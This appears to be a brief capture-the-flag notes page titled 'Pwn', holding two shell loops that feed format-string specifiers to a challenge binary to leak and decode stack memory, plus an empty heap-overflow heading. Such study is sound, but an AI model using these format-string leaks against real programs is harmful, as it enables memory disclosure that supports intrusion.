 ```yaml
---
title: Pwn
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: ""
  description: ""
  canonical: ""
  robots: ""
  noindex: false
---
```

## Format string

Leaking address:

```sh
for i in $(seq 1 20); do ./ch5 %$i\$x;printf "\n";done
```

Show the content : 
```sh
for i in $(seq 1 20); do ./ch5 %$i\$x |rax2 -s |tr -cd "[:print:]" |rev;printf "\n";done
```

##  Heap Overflow

